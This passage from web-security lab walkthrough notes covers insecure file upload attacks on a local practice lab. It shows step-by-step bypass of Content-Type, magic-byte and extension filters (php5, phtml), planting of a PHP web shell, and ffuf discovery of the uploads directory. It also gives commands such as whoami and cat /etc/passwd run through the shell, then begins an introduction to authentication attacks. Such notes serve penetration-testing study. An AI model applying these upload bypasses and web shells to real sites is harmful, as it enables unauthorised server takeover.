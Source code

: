 - Modify the file details:
  - Change Filename: `cmd.php`
  - Change Content-Type: `image/png`
  - Insert PHP Payload: [copy the system one](https://github.com/JohnTroony/php-webshells)
- Use the modified request to upload the PHP file. It uploads successfully.
- Use `ffuf` to discover where the uploaded file is stored: `ffuf -u http://localhost/FUZZ -w /usr/share/wordlists/dirb/common.txt`
- The `labs` directory is promising. Refine the search: `ffuf -u http://localhost/labs/FUZZ -w /usr/share/wordlists/dirb/common.txt`
- The file is stored in `uploads`.
- Access the uploaded file in the browser and execute commands:
  `http://localhost/labs/uploads/cmd.php?cmd=whoami`

## Insecure File Upload - Magic Bytes

- Attempt to reuse the technique we've seen to upload a PHP file. This time, the server blocks our request: `Only '.jpg' and '.png' files are allowed. Sorry, your file was not uploaded.`
- We want to mimic the signature of a PNG file, which is identified by specific "magic bytes." Download a PNG file from [Test picture generator](https://fknipp.github.io/test-picture-generator/).
- Open BurpSuite to intercept the POST request and upload the PNG file.
- Send the request to BurpSuite's repeater.
- Change the filename to `cmd2.php`.
- Add the PHP payload after the second line of the file starting with `IHDR`. You can use a PHP payload like the system one from [JohnTroony's php-webshells](https://github.com/JohnTroony/php-webshells).
- The file uploads successfully: `The file cmd2.php has been uploaded.`
- Navigate to `http://localhost/labs/uploads/cmd2.php?cmd=whoami`. You should see `www-data` at the end of the first line. Try other commands, like `cat /etc/passwd`.

## Insecure File Upload - Challenge Walkthrough

- We follow the same steps as in the previous section. This time, `php` files are rejected with the message: `The file extension '.php' is not allowed. Sorry, your file was not uploaded.`
- We try using the `php5` extension, and it works: `The file cmd3.php5 has been uploaded.`
- Unfortunately, the server can't execute `php5` files. We attempt other extensions: `php4`, `php3`, `php2`, `php1`. None of these work.
- Next, we try the `phtml` extension. This extension is used for files that contain PHP code and HTML content. It works: `The file cmd3.phtml has been uploaded.`
- Navigate to `http://localhost/labs/uploads/cmd3.phtml?cmd=whoami`. You should see `www-data` at the end of the first line.

## Attacking Authentication - Intro

Authentication is the process by which a system confirms the identity of a user or application. It's essentially all about who you are.

Targeting authentication mechanisms allows us to impersonate users, admins, or systems and gain unauthorized access. Often, we look to attack logic issues and lack of brute-force protection.

Common targets in authentication attacks include:

- Passwords or passphrases
- Multi-Factor Authentication (MFA)
- Session tokens
- Cookies
- Recovery questions and answers
